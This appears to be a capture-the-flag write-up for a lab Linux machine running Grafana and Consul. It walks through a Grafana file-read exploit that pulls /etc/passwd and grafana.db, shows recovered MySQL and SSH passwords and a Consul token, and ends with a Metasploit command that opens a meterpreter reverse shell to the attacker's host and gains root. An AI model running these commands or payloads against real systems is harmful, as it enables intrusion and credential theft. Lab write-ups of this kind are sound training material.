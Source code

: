 # Ambassador
It's a funny Linux machine, focused in the technology of Grafana
This machine could be consider as the easiest 
because the enumeration and the connection to the database (yes 
this machine has the ability to connect to the database 
and make the enumeration possible)

<img src=".github/mainpanel.png" />

As we can see, in the *Recent post* say "the user for ssh connection
is the user _developer_" that will give us by the DevOps


## Enumeration

We can see the ports 22, 80, 3000 and 3306 open, if we can get the user
and the password of database we can make a connection with the remote
database and get information.

<img src=".github/enumeration1.png" />

<img src=".github/enumeration2.png" />


## Intrussion (Explotation)

We can see a panel of login with the name and the version of
_Grafana_, making a bit search in the exploits available for 
_Grafana_ we found a _python3 exploit for the enumeration of the files_



<img src=".github/explotation1.png" />



In this section we can see the enumeration using the _grafana enumeration exploit_ to see the```/etc/passwd```

<img src=".github/explotation2.png" />


Looging for information about grafana we found the default location
```/usr/local/etc/grafana/grafana.ini``` but the file doesn't exists

<img src=".github/explotation3.png" />


so we try in ```/etc/grafana/grafana.ini``` and gotcha!!!

<img src=".github/explotation4.png" />

But this file doesn't have any interesting content
So we try to make another search but other file is ```/var/lib/grafana/grafana.db```


<img src=".github/explotation8.png" />


And we get a .db file, using a SQLite to get information we get the password and the user for ```mysql connection```

<img src=".github/explotation5.png" />

So try to connect

```bash
mysql -h 10.129.218.103 -ugrafana -pdontStandSoCloseToMe63221!
```

<img src=".github/explotation6.png" />

And we get the value of the user and password (encoded in base64) ```user: developer   and password:  anEnglishManInNewYork027468``` creds for ssh and
start the ssh connection.

<img src=".github/explotation7.png" />

## Privilege Escalation (Post explotation)

After the intrussion digging into the database
to get the password for the ssh connection
we have to see how to scale the privileges...


```bash
developer@ambassador:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@ambassador:~$ whoami
developer

developer@ambassador:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on ambassador.
developer@ambassador:~$ 
```
But we can get execution from another command to get access

```bash
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore


developer@ambassador:/opt/my-app$ git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
We can see the consul binary installed in the machine
so we can get privesc access with this binary 

but first we need to make a ssh port forwarding to get the 
port 8500


```
ssh L 8500:127.0.0.1:8500 developer@10.129.218.103
```


```
❯ msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 127.0.0.1; set lhost 10.10.14.8; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 4444; exploit"[*] Using configured payload linux/x86/meterpreter/reverse_tcppayload => linux/x86/meterpreter/reverse_tcprhosts => 127.0.0.1lhost => 10.10.14.8acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5lport => 4444[*] Started reverse TCP handler on 10.10.14.8:4444 [*] Creating service 'koFEIMWM'[*] Service 'koFEIMWM' successfully created.[*] Waiting for service 'koFEIMWM' script to trigger
[*] Sending stage (989032 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.11.183:49108) at 2022-10-05 14:40:38 -0500
[*] Removing service 'koFEIMWM'
[*] Command Stager progress - 100.00% done (763/763 bytes)

(Meterpreter 1)(/) > shell
Process 1627 created.
Channel 1 created.
bash
whoami
root
cat /root/root.txt
4c60cf105a721723dcb63be1ff31af7d
```
and that's all folks.